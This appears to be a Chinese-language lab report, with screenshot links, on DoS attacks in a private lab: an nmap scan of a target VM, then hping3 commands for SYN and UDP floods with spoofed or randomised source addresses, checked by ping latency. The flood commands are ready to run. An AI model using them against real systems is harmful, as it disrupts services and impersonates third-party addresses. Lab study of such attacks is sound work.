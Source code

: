 ​	网关：192.168.197.2

kali：

ip:192.168.197.139

网关：192.168.197.2

![image-20231023160138067](https://typora-image-fengchen.oss-cn-beijing.aliyuncs.com/img/image-20231023160138067.png)



获得靶机的ip地址后，扫描靶机开启的端口（hping3可以扫描端口，或者使用nmap扫描）nmap -Pn 192.168.197.140



![image-20231023160747317](https://typora-image-fengchen.oss-cn-beijing.aliyuncs.com/img/image-20231023160747317.png)

hping3 -h命令可以查看各项参数说明，也可以在附上的参考文档中查看。选择开启的端口，比如80端口，根据参考文档选择合适的参数，发送syn/udp包；**构造命令sudo hping3 -I eth0 -a 192.168.197.140 -S 192.168.197.141 -p 80 -i u1000**

![image-20231023161117164](https://typora-image-fengchen.oss-cn-beijing.aliyuncs.com/img/image-20231023161117164.png)



攻击机使用浏览器访问靶机，观察网页是否仍可访问，或者查看攻击前后ping靶机的响应时延，从而验证攻击效果。同时运行靶机任务管理器，查看系统性能，感受DoS攻击对服务器的影响。

 ##### SYN Flood

命令操作：**hping3 -c 100000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.197.140**

![image-20231023171805907](https://typora-image-fengchen.oss-cn-beijing.aliyuncs.com/img/image-20231023171805907.png)

![image-20231023164510653](https://typora-image-fengchen.oss-cn-beijing.aliyuncs.com/img/image-20231023164510653.png)

（未进行dos攻击前）

![image-20231023171831811](https://typora-image-fengchen.oss-cn-beijing.aliyuncs.com/img/image-20231023171831811.png)

（进行dos攻击后）



可以看到dos攻击前后ping靶机的的time的变化，dos攻击后time的时间大大增长，并且访问时间变慢。甚至于我靶机打不开界面。

##### UDP Flood

命令操作：**hping3 –udp -s 6666 -p 80 -a 8.8.8.8 -–flood 192.168.197.140**

![image-20231023173604097](https://typora-image-fengchen.oss-cn-beijing.aliyuncs.com/img/image-20231023173604097.png)

![image-20231023164510653](https://typora-image-fengchen.oss-cn-beijing.aliyuncs.com/img/image-20231023164510653.png)



（未进行dos攻击前）

![image-20231023170229553](https://typora-image-fengchen.oss-cn-beijing.aliyuncs.com/img/image-20231023170229553.png)

（dos攻击后）
